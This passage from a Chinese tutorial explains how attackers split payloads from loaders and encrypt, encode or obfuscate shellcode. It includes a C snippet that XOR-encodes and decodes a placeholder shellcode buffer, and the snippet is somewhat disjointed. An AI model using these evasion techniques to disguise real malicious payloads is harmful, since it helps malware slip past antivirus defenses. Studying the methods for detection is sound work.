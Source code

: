 ### 总结

​ 虽然说这里看着技术很多，但是我们只是需要实现我们的目的。那么我在这里继续举例一下都是些什么。

**对于是否是分离 payload，无非从代码层面就是多了一些 payload 的读取，本地读取，注册表写入读取，远程拉取等等，只是形式而已。**

**而对于 payload，也就是攻击载荷相关的内容。也是采取了混淆，编码，变形等。**

## 二。载荷编码加密&对抗&功能

​ 那么对于 payload 我们一般就是采取加密，编码，混淆。无论什么语言。例如：xor，base 家族，现代密码（aes，des，rsa。。），古典密码等等。这里举几个例子。

### 1.异或编码（c 语言）

​ 这里是把 shellcode 进行 xor 编码，然后可以保存到文件中，也可以按照自己的方式操作。

```bash
unsigned char buf[] = "shellcode"
    int password = 1025;

    unsigned char enShellCode[50000];
    unsigned char deShellCode[50000];

    int nLen = sizeof(buf) - 1;

    printf("%d\n加密后:\n", nLen);
    for (int i = 0; i < nLen; i++)
    {
        enShellCode[i] = buf[i] ^ password;
        printf("\\x%x", enShellCode[i]);
    }

    FILE* fp;
    unsigned char buffer[1024];
    int bytesRead;

    fp = fopen("1.txt", "rb");
    if (fp == NULL) {
        printf("Failed to open file");
        exit(1);
    }

    bytesRead = fread(buffer, sizeof(unsigned char), sizeof(buffer), fp);
    if (bytesRead == 0) {
        printf("Failed to read file");
        exit(EXIT_FAILURE);
    }

    for (int i = 0; i < bytesRead; i++) {
        printf("\\x%x", buffer[i]);
    }
    printf("");

    fclose(fp);


    printf("\n解密后:\n");
    for (int i = 0; i < nLen; i++)
    {
        deShellCode[i] = enShellCode[i] ^ password;
        printf("\\x%x", deShellCode[i]);
    }
```
